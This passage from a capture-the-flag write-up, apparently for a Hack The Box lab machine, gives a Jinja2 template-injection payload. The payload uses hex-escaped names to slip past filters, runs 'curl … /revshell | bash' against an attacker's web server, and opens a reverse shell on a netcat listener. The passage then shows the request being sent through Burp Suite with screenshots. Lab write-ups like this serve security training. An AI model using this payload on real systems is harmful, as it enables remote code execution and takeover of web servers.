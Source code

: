 ```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.10.14.36:8000/revshell | bash")|attr("read")()}}
```

Payload above will download **revshell** file from our Python Web server and launch it, spawning reverse shell on our netcat litener.

Let's run the request through Burp Suite repeater:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-24.png)

When we run the request, we can see that web app grabbing **revshell** from our Python Web Server:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-26.png)

We get reverse shell connection on our netcat listener:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-25.png)
